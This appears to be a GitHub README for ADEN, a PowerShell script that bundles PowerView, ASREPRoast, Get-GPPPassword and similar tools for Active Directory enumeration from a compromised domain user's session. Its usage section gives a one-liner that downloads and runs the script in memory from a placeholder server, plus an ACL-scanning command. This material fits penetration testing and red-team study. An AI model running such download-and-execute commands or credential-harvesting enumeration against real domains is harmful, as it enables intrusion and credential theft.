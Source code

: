 ## What is this?
ADEN is a local enumeration script for active directory environments, it is a carefully put together merge of several enumeration and exploitation projects:

- PowerView
- PowerMad
- ASREPRoast
- Get-GPPPassword
- PowerUpSQL

It is to be used as an all-in-one enumeration routine to spin off when you are in a domain user's session.
Big credits to all the authors of the above mentioned tools! You are awesome.


## How to use?
From a domain's user powershell session:
```powershell
iex(iwr -usebasicparsing http://[SERVER]/aden.ps1);Invoke-ADEnum
```
The script will perform a number of checks that you can directly see on a clear output. The only thing it doesn't do is ACL enumeration, I recommend you do this once you know your user context, then you can issue manually a command like this:
```powershell
Invoke-ACLScanner -ResolveGUIDs | ?{$_.IdentityReferenceName -match "[YOUR_GROUP]"} | select ObjectDN, IdentityReference, ActiveDirectoryRights, AccessControlType
```
